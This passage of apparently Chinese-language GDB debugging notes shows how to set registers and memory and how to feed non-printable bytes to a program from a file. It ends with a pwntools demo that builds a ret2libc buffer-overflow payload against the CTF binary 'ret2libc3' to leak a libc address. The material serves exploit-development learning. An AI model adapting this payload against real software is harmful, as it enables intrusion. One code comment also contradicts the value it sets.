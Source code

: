 ```bash
set $eax=1 # 设置寄存器 eax 为 0
set {int}0x83040 = 4 # 将内存位置0x83040表示为整数，将值4存储到该存储位置
```



### gdb: Input Invisible Character

> gdb调试时输入不可见字符

- 使用类似如下的python脚本，将输入写入文件`input`中：

```python
s = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x00\n\n\n\nabcdABCD"
with open("input", "wb") as f:
    f.write(s)
```

- 存入`input`的内容：

```assembly
$ hexdump input
0000000 0201 0403 0605 0807 0a09 0c0b 0e0d 000f
0000010 0a0a 0a0a 6261 6463 4241 4443
```

- 在GDB 开始调试时，使用run时添加`< input`

```assembly
r < input
```

- 将不可见字符保存成文件`input`的demo

```python
#!/usr/bin/env python  # gdb调试时输入不可见字符 demo 
from pwn import *
from LibcSearcher import LibcSearcher 
context.log_level = "DEBUG"
sh = process("./ret2libc3")

ret2libc3 = ELF("./ret2libc3")
puts_plt = ret2libc3.plt["puts"] 
libc_start_main_got = ret2libc3.got["__libc_start_main"] 
main = ret2libc3.symbols["main"] 

print("leak libc_start_main_got addr and ret to main", str(hex(puts_plt)), str(hex(main)), str(hex(libc_start_main_got)))
# puts_plt, main, libc_start_main_got: 0x08048460 0x08048618 0x0804a024
payload = flat(['A' * (108+4), puts_plt, main, libc_start_main_got])
print("payload: ", payload.hex(), type(payload)) # <class 'bytes'>
# ...... 41414141 60840408 18860408 24a00408 
with open("input", "wb") as f:
    f.write(payload) 
```


